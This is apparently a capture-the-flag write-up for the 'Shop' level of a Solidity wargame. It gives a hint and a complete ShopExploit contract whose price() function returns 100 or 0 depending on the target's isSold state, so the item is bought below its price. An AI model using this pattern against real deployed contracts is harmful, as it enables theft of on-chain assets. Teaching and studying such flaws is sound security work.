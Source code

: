 # 21 - Shop

### Hints

<details>

<summary>Hint One</summary>

This level is a lot like “Elevator” but in this case, the same approach of toggling a state variable to determine which value to return won’t work. You will need to return a price > 100 the first time your contract’s `price` function is called, and < 100 the second time. Is it possible to somehow base the return value on the state of the Shop contract itself?

</details>

### Scripted Solution

```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.7;

interface IShop {
    function isSold() external view returns (bool);

    function buy() external;
}

contract ShopExploit {
    IShop private _shopContract;

    /**
     * Constructor sets `Shop` contract and `_price`.
     */
    constructor(address shopContractAddress) {
        _shopContract = IShop(shopContractAddress);
    }

    /**
     * Will be called by `Shop` contract to get item price.
     *
     * Note that this returns a different price depending on whether the `Shop`
     * contract has updated the `isSold` variable when it is called.
     */
    function price() external view returns (uint256) {
        return _shopContract.isSold() ? 0 : 100;
    }

    /**
     * Calls `Shop` contract's `buy`.
     */
    function buy() external {
        _shopContract.buy();
    }
}
```
